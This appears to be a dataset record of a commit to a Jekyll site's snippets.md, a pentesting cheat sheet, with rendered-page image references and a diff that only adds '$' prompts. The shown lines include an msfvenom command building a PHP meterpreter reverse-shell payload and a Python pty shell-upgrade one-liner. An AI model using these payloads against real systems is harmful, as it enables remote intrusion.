

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from snippets.md, in a window 1280 px wide. Shown: the top 649 px of the page, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

````diff
--- a/snippets.md
+++ b/snippets.md
@@ -20,7 +20,7 @@ Once the required values are completed the following command will execute your h
 #### Scripting Payloads
 ###### PHP
 ```bash
-msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address>
+$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address>
 lport=<your-port-address> -o shell.php
 ```
 
@@ -29,5 +29,5 @@ lport=<your-port-address> -o shell.php
 
 ##### spawn a terminal
 ```python
-python -c 'import pty;pty.spawn("/bin/bash")';
+$ python -c 'import pty;pty.spawn("/bin/bash")';
 ```
````
